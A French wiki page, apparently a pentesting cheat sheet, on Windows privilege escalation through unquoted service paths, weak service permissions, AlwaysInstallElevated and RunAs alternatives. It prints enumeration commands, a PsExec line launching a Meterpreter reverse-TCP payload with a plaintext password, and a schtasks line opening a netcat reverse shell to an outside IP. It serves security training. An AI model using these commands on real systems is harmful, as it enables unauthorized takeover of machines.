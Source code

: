 ```yaml
---
title: Elévation de priviléges (Windows)
permalink: /Elévation_de_priviléges_(Windows)/
---
```


# Elévation de priviléges (Windows)


The following elements are based on <http://toshellandback.com/2015/11/24/ms-priv-esc/>

Trusted Service Paths
---------------------

Si le "Service path" d'un service n'est pas mis entre quote il est possible d'effectuer une attaque. Pour l'exemple on considère le Service Path suivant:

``` text
C:\Program Files\Some Folder\Service.exe
```

Windows va essayer d'appeler les programmes suivant, jusqu'à ce que l'un d'eux soit identifé:

``` text
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

Ceci peut conduire à une compromission s'il est possible de créer `C:\Program.exe` ou `C:\Program` `Files\Some.exe`

[WMIC](/WMIC "wikilink") peut être utilisé pour contrôler ce point:

``` text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

On peut utiliser [icacls](/icacls "wikilink") pour vérifier les permissions:

``` text
icacls "C:\Program Files (x86)\Privacyware"
```

On peut ensuite relancer le service:

``` text
sc stop PFNet
sc start PFNet
```

Si on a pas les privilèges pour redémarrer le service, on peut essayer de redémarrer le serveur.

Modifier un service Windows
---------------------------

Avec de la chance il est possible de modifier un service. L'outil [accesschk](/accesschk "wikilink") peut être utilisé pour vérifier ceci:

``` text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

On peut regarder les propriétés du service PFNet

``` text
sc qc PFNet
```

Il est parfois possible de changer le binaire lui même.

AlwaysInstallElevated
---------------------

Regarder si l'option `AlwaysInstallElevated` est active:

``` text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Alternatives à RunAs
--------------------

On est parfois dans des situations où on a:

-   Un shell non interactif sur un serveur
-   Le mot de passe administrateur du serveur

Dans ce cas il est possible d'executer des commandes avec une des méthodes suivantes.

### PsExec

Il faut avoir uploaddé [PsExec](/PsExec "wikilink"). Ensuite on peut exécuter la commande suivante:

``` bash
PsExec \\BETHANY -u alice -p aliceisnice C:\HFS\encrypted_meterpreter_reverse_tcp_80.exe
```

### schtasks

Il est possible de créer une "scheduled task" et passer le mdp admin sur la ligne de commande.

``` bash
schtasks /create /sc once /tr "nc.exe -e cmd.exe 192.168.30.156 443" /tn MASUPERTACHE /st 00:00:00 /ru alice /rp aliceisnice
schtasks /run /tn MASUPERTACHE
```

Ressources
----------

### Outils

-   [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) pour identifier des possibilité d'élévation de priviléges.
-   [BypassUAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) pour contourner l'UAC.
-   Attaque [Hot Potato](https://foxglovesecurity.com/2016/01/16/hot-potato/)

### Documents

-   [Windows Exploit Suggester (Tool)](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
-   [Encylopaedia of Windows Privilege Escalation (Video)](https://www.youtube.com/watch?v=kMG8IsCohHA)
-   [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
-   [All roads lead to SYSTEM (PDF)](https://labs.mwrinfosecurity.com/system/assets/760/original/Windows_Services_-_All_roads_lead_to_SYSTEM.pdf)
-   [Elevating privileges by exploiting weak folder permissions](http://www.greyhathacker.net/?p=738)
-   [Windows Privilege Escalation Vectors](http://toshellandback.com/2015/11/24/ms-priv-esc/Common)


